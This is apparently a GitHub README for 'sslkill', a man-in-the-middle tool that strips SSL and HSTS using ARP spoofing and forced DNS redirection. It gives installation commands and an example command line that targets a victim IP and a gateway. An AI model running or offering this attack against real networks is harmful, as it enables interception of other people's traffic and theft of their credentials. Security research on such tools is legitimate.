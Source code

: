 # sslkill

SSL Kill is a forced man-in-the-middle transparent proxy that modifies HTTP requests and responses in order to avoid SSL and HSTS, to achieve that, it use a two-way ARP spoofing plus a forced DNS resolver that redirects all name server queries to the attacker IP Address. This tool is for information security researchers and should not be used for criminal acts


SSL Kill v0.7<br/>


![alt text] (banner.png)


## Installation
```
   $sudo apt-get install build-essential python-dev libnetfilter-queue-dev
   $git clone https://github.com/m4n3dw0lf/sslkill
   $cd sslkill
   $sudo pip install -r requirements.txt
   $sudo chmod +x sslkill
   $sudo ./sslkill -h
```

## Basics
```
usage:
  $sudo ./sslkill.py -i <INTERFACE> -t <TARGET IP> -g <GATEWAY IP>

example:
  $sudo ./sslkill.py -i wlan0 -t 10.0.0.3 -g 10.0.0.1

```
